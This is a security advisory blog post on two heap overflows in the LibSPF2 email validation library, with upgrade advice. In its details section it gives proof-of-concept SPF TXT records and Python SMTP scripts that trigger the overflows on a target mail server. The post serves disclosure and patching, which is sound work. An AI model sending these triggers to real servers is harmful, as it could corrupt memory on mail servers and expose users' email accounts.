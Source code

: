 ```yaml
---
title: "CVE-2021-33912 and CVE-2021-33913: Heap overflows in email validation library LibSPF2"
layout: post
categories: CVE
tags: [spf, email]
---
```


Two bugs related to the parsing of SPF (Sender Policy Framework) records have been found in LibSPF2, a library commonly used to determine the validity of email received to a server. One of these bugs allows for relatively flexible memory corruption in the heap, while the other affects only up to four bytes past the end of an allocated buffer. Both bugs have the potential to be used to carry out 0-click remote code execution, though modern memory defenses may reduce the possibility of such an attack. These vulnerabilities are especially important to note for servers designed to receive or exchange email, as a successful exploit would compromise the privacy and security of email accounts on a given email server. This could additionally lead to the compromise of other online accounts (such as those that would send password reset links to the compromised email account), or serve as a starting point for more sophisticated phishing/spoofing attacks. Both heap overflows can be triggered remotely by first publishing a particular TXT record for an arbitrary domain and then sending an email from that domain to an affected email server.

### Recommendations

Versions of LibSPF2 before 1.2.11 are affected by both of these vulnerabilities.

If you are a mail exchange, you should check to see whether your servers use a vulnerable version of LibSPF2. You should check any anti-SPAM devices you may run in addition to mail server software.

If you are a vendor of mail server software or anti-SPAM services, or if you manage packages for an operating system, you should determine whether LibSPF2 is used in any of your configurations and migrate to LibSPF2 1.2.11. This version can be found at:

[https://github.com/shevek/libspf2/tree/8131fe140704eaae695e76b5cd09e39bd1dd220b](https://github.com/shevek/libspf2/tree/8131fe140704eaae695e76b5cd09e39bd1dd220b)

If you use another implementation of SPF, it is unlikely that you will be affected by this issue--the parsing bug is due to specific errors made in the LibSPF2 codebase.

### Details

The Sender Policy Framework specification ([RFC 7208](https://datatracker.ietf.org/doc/html/rfc7208)) provides several different mechanisms and macros to provide some level of flexibility for SPF policies. 
SPF macros are expanded at the time an SPF policy is retrieved by an email server, and they are meant to represent information specific to a given email exchange (such as the HELO domain or IP address that email is being received from). 

SPF macros include several indicators that can alter the way macro expansions occur, including options that reverse and/or truncate portions of the macro expansion and an option to URL-encode the resulting string. Both vulnerabilities in LibSPF2 were found in code implementing these macro options.

**CVE-2021-33912** is the result of incorrect parsing in the URL-encode phase of macro expansion. During this phase, any non-ASCII or special characters are converted into their hexadecimal representation (' ' -> '%20', for instance); LibSPF2 does this through a call to `sprintf`. The library implicitly assumes the function will only ever output 4 characters, but certain inputs (0x80-0xff) will cause `sprintf` to overwrite 8 characters, thereby overflowing the buffer allocated to store the expansion. 

As an example, the following TXT record and SMTP query could be used to trigger a buffer overflow:

TXT record for 'example.com': `v=spf1 %{L}.example.com -all`

SMTP query:

{% highlight python linenos %}
from smtplib import SMTP

TARGET_IP = '192.0.2.1'
TARGET_EMAIL = 'example@nathanielbennett.com'

with SMTP() as s:
    s.connect(host=TARGET_IP, port=25)
    s.ehlo(name="example.com")
    s.send(b'MAIL FROM:\xff@example.com>\r\n')
    s.docmd("RCPT", "TO:<%s>" % (TARGET_EMAIL,))
    s.docmd("DATA")
    s.send(bytes("\r\n\r\n.\r\n", 'ascii'))
    s.quit()
{% endhighlight %}

Note: some email server and spam filter implementations reject non-ASCII input in SMTP commands; triggering CVE-2021-33912 is a much more involved process when this is the case, though it is still possible.

**CVE-2021-33913** involves an error during the domain label reversal/truncation phase of macro expansion. In the event that a macro is reversed, truncated _and_ URL-encoded during expansion, the buffer of the macro output is erroneously sized based on the length of the leftmost label in the domain, rather than the size of the whole domain. This means that an attacker may use a domain such as "b.AAAAAAAAAAAAAAAAAAAAAA.example.com" to overflow the heap with 'A' characters. 

The following TXT record and SMTP query could be used to trigger a buffer overflow:

TXT record for 'example.com': `v=spf1 %{H5r}.example.com -all`

SMTP query:

{% highlight python linenos %}
from smtplib import SMTP

TARGET_IP = '192.0.2.1'
TARGET_EMAIL = 'example@nathanielbennett.com'

with SMTP() as s:
    s.connect(host=TARGET_IP, port=25)
    s.ehlo(name="b.AAAAAAAAAAAAAAAAAAAA.example.com")
    s.docmd("MAIL", "FROM:<test.example.com>")
    s.docmd("RCPT", "TO:<%s>" % (TARGET_EMAIL,))
    s.docmd("DATA")
    s.send(b'\r\n\r\n.\r\n')
    s.quit()
{% endhighlight %}

CVE-2021-33913 provides greater control on the size of the allocated buffer, the amount of data that can be written into the heap and the byte values that can be used; as such, it is of greater concern than CVE-2021-33912.

### Conclusion

Email has inadvertantly become a centralized location for backup authentication--most online accounts require an email address for the purpose of having somewhere to communicate password reset links to. As such, the risks of a compromised email server are no longer limited to the loss of privacy of users' emails. LibSPF2 is not used by any of the biggest email providors (Gmail, Microsoft, Yahoo and the like), though many smaller providers have been measured to be affected. Multiple services (including Exim) make use of the library.

There are options for SPF validation written in memory-safe code (such as pyspf/python-policyd-spf and Mail::SPF, written in Python and Perl respectively). Both of these are up-to-date with the latest RFC. LibSPF2 hasn't been under active development/maintenence for a couple years now--the last three commits to the code before recent CVE fixes were in 2017, 2016 and 2015. The sensible recommendation may be to switch configurations to one of the above implementations if your email server currently uses LibSPF2. It's just too easy for vulnerabilities to pop up in C code, especially when it comes to string parsing.

Special thanks goes to shevek, Paulo Smorigo and the IMAAL lab for all the help with patching and measuring these vulnerabilities! 

<!--No thanks goes to Facebook, who awarded a bug bounty of $0 upon receiving an early notification of these vulnerabilities being present in their system.-->
